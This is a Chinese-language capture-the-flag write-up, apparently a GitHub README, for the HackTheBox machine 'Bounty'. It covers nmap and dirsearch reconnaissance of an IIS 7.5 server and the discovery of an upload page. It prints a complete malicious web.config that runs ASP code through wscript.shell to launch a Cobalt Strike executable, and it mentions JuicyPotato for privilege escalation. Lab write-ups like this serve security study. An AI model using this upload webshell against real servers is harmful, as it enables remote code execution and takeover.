

# README

## nmap

```shell
sudo nmap -T4 -A -v 10.10.10.93
Password:
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-13 19:11 CST
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 19:11
Completed NSE at 19:11, 0.00s elapsed
Initiating NSE at 19:11
Completed NSE at 19:11, 0.00s elapsed
Initiating NSE at 19:11
Completed NSE at 19:11, 0.00s elapsed
Initiating Ping Scan at 19:11
Scanning 10.10.10.93 [4 ports]
Completed Ping Scan at 19:11, 0.25s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 19:11
Completed Parallel DNS resolution of 1 host. at 19:11, 0.04s elapsed
Initiating SYN Stealth Scan at 19:11
Scanning 10.10.10.93 [1000 ports]
Discovered open port 80/tcp on 10.10.10.93
Completed SYN Stealth Scan at 19:12, 15.77s elapsed (1000 total ports)
Initiating Service scan at 19:12
Scanning 1 service on 10.10.10.93
Completed Service scan at 19:12, 6.69s elapsed (1 service on 1 host)
Initiating OS detection (try #1) against 10.10.10.93
Retrying OS detection (try #2) against 10.10.10.93
Initiating Traceroute at 19:12
Completed Traceroute at 19:12, 0.32s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 19:12
Completed Parallel DNS resolution of 2 hosts. at 19:12, 5.52s elapsed
NSE: Script scanning 10.10.10.93.
Initiating NSE at 19:12
Completed NSE at 19:12, 5.12s elapsed
Initiating NSE at 19:12
Completed NSE at 19:12, 0.99s elapsed
Initiating NSE at 19:12
Completed NSE at 19:12, 0.00s elapsed
Nmap scan report for 10.10.10.93
Host is up (0.27s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: Bounty
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Vista SP2 (91%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (90%), Microsoft Windows 8.1 Update 1 (90%), Microsoft Windows Phone 7.5 or 8.0 (90%), Microsoft Windows 7 or Windows Server 2008 R2 (90%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.001 days (since Wed Sep 13 19:10:38 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=256 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   294.08 ms 10.10.14.1
2   294.40 ms 10.10.10.93

NSE: Script Post-scanning.
Initiating NSE at 19:12
Completed NSE at 19:12, 0.00s elapsed
Initiating NSE at 19:12
Completed NSE at 19:12, 0.00s elapsed
Initiating NSE at 19:12
Completed NSE at 19:12, 0.00s elapsed
Read data files from: /opt/homebrew/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.71 seconds
           Raw packets sent: 2095 (95.864KB) | Rcvd: 39 (2.412KB)

```

只有80端口的IIS服务，版本是IIS 7.5。

## 80端口 IIS7.5

dirsearch扫不到东西，拿IIS_shortname_Scanner测一下：

```shell
Dir:  /aspnet~1
Dir:  /upload~1
File: /csaspx~1.cs
File: /transf~1.asp*
```

关注`/upload~1`和`/transf~1.asp*`

学到一种方法：

```shell
grep upload /Users/feng/many-ctf/dirbuster/directory-list-2.3-small.txt >>temp.txt
grep transf /Users/feng/many-ctf/dirbuster/directory-list-2.3-small.txt >>temp.txt

python3.10 dirsearch.py -u http://10.10.10.93/ -e '*' -w temp.txt

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, jsp, asp, aspx, do, action, cgi, html, htm, js, tar.gz | HTTP method: GET | Threads: 25
Wordlist size: 36

Output: /Users/feng/ctftools/dirsearch/reports/http_10.10.10.93/__23-09-13_20-04-15.txt

Target: http://10.10.10.93/

[20:04:15] Starting:
[20:04:22] 301 -  156B  - /uploadedfiles  ->  http://10.10.10.93/uploadedfiles/
[20:04:22] 301 -  156B  - /uploadedFiles  ->  http://10.10.10.93/uploadedFiles/

```

```shell
python3.10 dirsearch.py -u http://10.10.10.93/ -e '*' -w temp.txt --suffixes='.aspx'

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, jsp, asp, aspx, do, action, cgi, html, htm, js, tar.gz | Suffixes: .aspx
HTTP method: GET | Threads: 25 | Wordlist size: 32

Output: /Users/feng/ctftools/dirsearch/reports/http_10.10.10.93/__23-09-13_20-09-11.txt

Target: http://10.10.10.93/

[20:09:11] Starting:
[20:09:17] 200 -  974B  - /transfer.aspx
```

transfer.aspx是一个上传，利用IIS7.5的解析漏洞绕过.aspx后缀的waf不行，这题题解是上传web.config来实现rce：https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/


但是环境奇奇怪怪，拿cs的powershell打不通不知道是不是我的问题，拿exe打通：

```shell
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!

<%response.write server.createobject("wscript.shell").exec("cmd.exe /c %TEMP%\artifact-x64-1.exe").stdout.readall%> 
-->
```

再执行即可。

上传cs之后提权就没什么好说的了，这种难度的靶机都是常见的几个洞试试都能打，拿juicypotato拿权限就行。

